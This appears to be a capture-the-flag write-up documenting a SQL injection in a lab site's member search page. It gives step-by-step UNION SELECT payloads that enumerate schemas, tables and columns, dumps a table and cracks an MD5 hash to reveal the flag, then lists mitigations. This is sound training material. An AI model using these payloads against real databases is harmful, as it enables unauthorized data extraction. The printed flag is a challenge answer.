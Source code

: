 # SQL Injection In Member Search Field 

## Issue

The input field at "http://{IP}:{PORT}/index.php?page=member" does not sanitize input data which is passed through to a database directly enquiry \
resulting in injection of query into SQL database.


## Attack Vector

1 - Navigating to "http://{IP}:{PORT}/index.php?page=member" and entering arbitrary payload eg `' or 1=1` into input field and selecting submit 
reveals SQL syntax error message confirming that data is being passed into query without sanitization

2 - Identify Schemas in database by inputting `4 UNION SELECT null,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -` into the search field and pressing enter \
We see interesting schema `Member_images` \
Note - as there are only 2 columns being returned/rendered by the server during a normal query then union select needs to only reference 2 columns during query!

3 - Identify the tables in `Member_images` schema with `4 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS -- -` which reveals table name `list_images`

4 - Identify all columns in List_images table in Member_images with  `4 UNION SELECT COLUMN_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS -- -`

5 - Column names `id, url, title, comment` are revealed

6 - Query each column in List_images table with `4 UNION SELECT {column_name},{column_name} FROM Member_images.list_images -- -`

7 - After querying all columns we see one particular interest entry in the List_images table as follows:
| **Column name** | id  | url                                   | title   | comment                                                                                         |
|-----------------|-----|---------------------------------------|---------|-------------------------------------------------------------------------------------------------|
| **Data**        | 5   | borntosec.ddns.net/images.png        | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

8 - Open bash and navigate to script directory. Launch script with `python3 hashcracker.py` to attempt to crack md5 hash against the passwordlist.txt wordlist

9 - The decrypted hash is found to be `albatroz`

10 - We follow the instructions as per table contents and lowercase `albatroz` then apply a SHA256 algorithm to reveal the flag.

11 - Flag is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

*NOTE - You can use existing MD5 decryption tools such as MD5decrypt.net to attempt to crack the hash.*


## Mitigation

1 - Sanitize and validate input

2 - Use ORM framework to make queries to database

3 - Do not expose raw SQL error messages




